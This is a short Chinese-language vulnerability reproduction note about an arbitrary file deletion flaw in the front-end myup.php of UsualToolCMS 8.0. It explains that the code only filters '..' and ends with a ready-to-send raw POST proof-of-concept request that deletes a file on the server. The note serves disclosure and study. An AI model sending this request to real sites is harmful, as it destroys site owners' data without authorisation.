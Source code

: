 UsualToolcms前台任意文件删除
============================

一、漏洞简介
------------

前台myup.php文件最后一段存在任意文件删除

二、漏洞影响
------------

UsualToolCMS-8.0-Release

三、复现过程
------------

漏洞点：<http://0-sec.org/myup.php>

![](resource/UsualToolcms8.0myup.php前台任意文件删除/media/rId25.shtml)

第47行只对..精心过滤，我仍然能任意删除网站内部的文件，直接构造poc，

![](resource/UsualToolcms8.0myup.php前台任意文件删除/media/rId26.shtml)

![](resource/UsualToolcms8.0myup.php前台任意文件删除/media/rId27.shtml)

    POST /UsualToolCMS/myup.php HTTP/1.1
    Host: 0-sec.org
    User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:48.0) Gecko/20100101 Firefox/48.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
    Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
    Accept-Encoding: gzip, deflate
    DNT: 1
    X-Forwarded-For: 8.8.8.8
    Connection: close
    Upgrade-Insecure-Requests: 1
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 25

    get=delimg&imgurl=./1.ph
